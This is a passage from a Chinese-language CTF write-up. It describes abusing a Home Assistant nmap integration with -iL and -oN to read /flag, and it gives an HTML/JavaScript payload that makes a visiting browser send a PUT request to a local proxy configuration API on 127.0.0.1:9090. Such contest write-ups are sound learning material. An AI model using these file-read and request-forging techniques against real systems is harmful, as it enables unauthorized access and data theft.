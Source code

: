 其实还有个坑，跟运气有关，就是最后分割符选不好出不来，因为结果是 `flag{Ts_fLaG_beTTeR_THan_PYTH0n!}`，flag 里面还有个 fLaG 草！

### 逝界计划

太太太可惜了！！！！！！！！！我二阶段前找到 nmap 了！！！！觉得可疑！！！！但是又不知道怎么判断脚本是否执行！！！！我以为加载集成是不会执行的草草草草草草草！！！！我要是回头看一眼日志（早就看到日志了）就好了！！！！！

注意所有操作都在配置菜单里

二阶段，已知是 nmap 集成，可以输入参数，看看手册，加载文件肯定是 `-iL`，那第一个问题就是如何找到文件，在 docker 配置里告诉我们了是 `/flag`（我瞎了，一开始没看到是绝对路径）

第二个问题是输出，home assistant 有详细日志，加日志等级可以输出个卵蛋，呃，还是有点用的，可以看出文件是否存在……

那就要找别的输出手段，google 一下 nmap 文件读取可得[资料](https://blog.i1nfo.com/posts/ctf-nmap-webshell/index.html#payload-39-lt-eval-GET-cmd-gt-oN-a-phtml-39)，看看其它题怎么输出的？哦，是 `-oN` 选项写到别的文件里

那我怎么下载呢？一开始想覆盖日志，可是不安装一下 docker 我都不知道文件在哪啊喂，所以……我稍稍翻了一下发现有个东西叫做备份，手贱点一点，给了个绝对路径文件的下载……笑死我了

nmap 选项改一改，去下备份文件，打开见到 `Failed to resolve "flag{sOOOo-mAny-LOoPhOLeS-in-hOmE-AsSisTAnt}".`

### 非法所得

二阶段艰难地做出来了，我实在是想吐槽，一个误操作这题环境就要重开草（

本题我基本全部是依赖上面那题[第三新 XSS](#第三新-xss) 提供的环境来写脚本的，这要真的是正解的话，建议下次别出了.jpg

#### Flag 1

提示给的文档……我之前找到过啊草！因为我看到 secret 是空的有所警觉，但觉得反正 visit 只能访问 pku 域名，好像也不能 import 吧.jpg

~~我实在想不到办法了~~，我想到了一个骚操作，实践并且成功了，不知道这是不是预期解啊，感觉不是（

有一个我可以自由操作的 pku 域名网页，是谁呢，锵锵！就是我[第三新 XSS](#第三新-xss)啦！！！

等会，写这段话的时候，我觉得这是预期解了，因为这题涉及原神，而第三新 XSS 那题涉及崩铁……这也是一种提示吗（

这题需要两个网页，然后让靶机访问，第一个是修改：

```html
<p id="p1">Hello World!</p>
<script>        
   const data = {
       path: "/app/profiles/flag.yml"
   };

   fetch('http://127.0.0.1:9090/configs', {
       method: 'PUT',
       headers: {
           'Content-type': 'application/json; charset=utf-8',
       },
       body: JSON.stringify(data),
   }).then(response => response.json())
       .then(data => {
           document.getElementById("p1").innerHTML = JSON.stringify(data);
       })
       .catch((error) => {
           document.getElementById("p1").innerHTML = JSON.stringify(error);
       });
</script>
```
